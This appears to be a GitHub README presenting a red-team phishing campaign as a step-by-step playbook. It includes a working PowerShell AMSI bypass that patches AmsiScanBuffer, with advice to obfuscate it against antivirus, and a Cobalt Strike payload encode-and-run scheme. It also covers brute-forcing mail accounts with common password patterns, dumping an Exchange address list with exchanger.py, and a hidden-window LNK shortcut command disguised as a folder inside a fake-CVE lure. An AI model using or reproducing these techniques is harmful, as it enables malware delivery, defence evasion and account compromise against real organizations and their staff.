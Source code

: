 <h1 align="center">🎣 My Phishing Case - 1 🎣</h1>

## I.Create Malware - Simple CobaltStrike-Agent Runner
1. Encode the Payload

The original payload will use the default Cobalt Strike payload in .ps1 format.
Use "Windows Stageless Payload" to reduce detection chances and utilize DNS beaconing to evade outbound TCP connection blocks on the target system.
Then, use "encode.ps1" with the generated payload to obtain a Base64-encoded output.
Copy this output and replace it in "decode.ps1", which will be responsible for decoding and executing the Cobalt Strike payload.
The format of decode.ps1 will be as follows:
<p align="center">
  <img src="https://github.com/user-attachments/assets/c6b7d3a5-190b-4bca-a9ba-f1a4bfb03e65">
</p>

2. Bypass Defender

Regarding the bypass method, since the entire execution process relies on PowerShell, using existing AMSI bypass repositories is sufficient.Recon and information gathering on the target’s antivirus (AV) software is crucial because some bypass techniques only work on specific AVs. Additionally, once a bypass technique is used, it may be blacklisted, so modifying the bypass script (e.g., using string concatenation or encryption) is necessary for each attack.In this campaign, Red Team customized the AmsiScanBuffer bypass method from Rasta-Mouse to evade AV detection. The original AMSI bypass code is as follows:
```
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll") #-----------Modify this------------------
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer") #-----------Modify this------------------
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p) #-----------Modify this------------------
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3) #-----------Modify this------------------
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
The above patch needs to have its string values and byte sequences obfuscated to avoid detection by signature-based security measures.
## II. Reconnaissance to Create a Target List
1. ruler-linux64
   
In every phishing campaign, from my perspective, if a hacker gains access to any internal email account of a user, the success rate of the campaign is almost absolute. Once they obtain an account, the preparation of the script will be based on the role, department, and position of the user whose account has been compromised. This allows the attacker to target a limited number of users related to the controlled account (avoiding a large scope to prevent triggering alerts).

So first, we will prioritize searching for valid internal accounts. We can use powerful search engines like Intelx or ruler-linux64, combined with common password formats such as "<Company_name>@123", "<Company_name>@1234", "<Company_name>@2024",.. and email list collect from Intelx to perform brute-force attacks.

In this case, I found only one system account with an information notification function - excellent! The power of this account is extremely significant. However, there is a problem: such accounts usually do not have any directly related departments or users. Therefore, selecting a target and preparing the scenario must still be done on a sufficiently large scope.(Later, we were still detected by alerts, but by then, we had enough time to establish a tunnel and a new command-and-control channel.Nice try, but I still feel sorry for the SOC team😆)

2. exchanger.py

Creating a target list requires a valid account on the target's Mail Exchange server. This can be done using the "exchanger.py" tool from the Impacket toolkit:
```
python3 exchanger.py DomainName/Username:"Password"@mail.domain.com nspi list-tables
```
The extracted email list will include email addresses, departments, and job titles of all users. This list can be used to compile a target list.

A custom Python script can be created to filter users based on the "title" field. This allows for a more focused attack on a specific department, which reduces scope and increases success rates:

<p align="center">
  <img src="https://github.com/user-attachments/assets/016f7dff-c28e-4a6c-afc9-59c53b0b636a">
</p>

## III. Weaponization
To increase the success rate, the payload-containing attachment will be sent as a ZIP file. This prevents the file format from being immediately visible when the recipient reads the email.

Additionally, the PowerShell script responsible for executing the payload should be hidden from the user's interface by setting its "Hidden Item" attribute:
![image](https://github.com/user-attachments/assets/8e49219f-8bc8-4e00-9915-a582d99b15b9)
Additionally, create a LINK SHORTCUT file in the payload directory to trigger the payload, with the "target" configured as follows:
```
C:\Windows\System32\cmd.exe /c "set STR1=power&& cmd.exe /c %STR1%shell -WindowStyle hidden -exec bypass Import-Module .\Thong_tin_cve\Thong_tin_chi_tiet.ps1
```

<p align="center">
  <img src="https://github.com/user-attachments/assets/f77cc8bb-af2d-42e3-803e-7e8cd288dbe1">
</p>

This shortcut file will call the PowerShell.exe process of the operating system and execute the hidden payload located in the "Thong_tin_cve" folder.

The goal is to trick the user into clicking the shortcut file. To increase the click-through rate, the shortcut icon should be changed to resemble a folder icon (this can be done via the "Change Icon" option).

The folder name, file name, email content, and attached document should be customized according to the selected attack scenario.

In this case, the Red Team is using a fake security advisory about a new Exchange CVE that could lead to personal data leaks. Therefore, all naming conventions (folder, files, email, and attached document) will align with this phishing scenario.

Here is the full-chain of payload:
<p align="center">
  <img src="https://github.com/user-attachments/assets/aa13078f-aac5-4800-9621-67001abd36be">
</p>

## IV. Drop the BOMBS
After completing the setup and weaponization, the final step is to send an email with the attached file to the predefined target list with the following content:

<p align="center">
  <img src="https://github.com/user-attachments/assets/619210cb-fb57-4f73-bf3e-07febaf93f20">
</p>

=>And now, just sit back and wait for the targets to take the bait.
<p align="center">
  <img src="https://github.com/user-attachments/assets/aa607bfa-0184-4475-bbee-74cdecaecd10">
</p>

<p align="center">
😈Mission accomplished!😈
</p>

## V. Analysis of Strengths and Weaknesses
1. Strengths

✅This technique is extremely easy to implement, has a high success rate, and works well on both EDR and AV of Kaspersky.

✅High flexibility and reusability due to using PowerShell as the main platform.

2. Weaknesses

❌Since the technique relies on PowerShell as the main platform, it will not work on Domains or Forests that have a "Disable PowerShell" policy in place. (However, there are ways to bypass such policies—we will discuss this in a separate topic later.)

❌And, of course, the common weakness of all phishing-based malware drop techniques: Mail Gateway. If the Mail Gateway blocks one of the formats we use (even after compression), the malware delivery to the user will not happen. However, this issue can be mitigated by compressing the entire payload and setting a password before sending it. This approach makes preparation more challenging and reduces the success rate, but it helps evade Mail Gateway detection. (Therefore, leveraging new executable formats will open up more possibilities.)







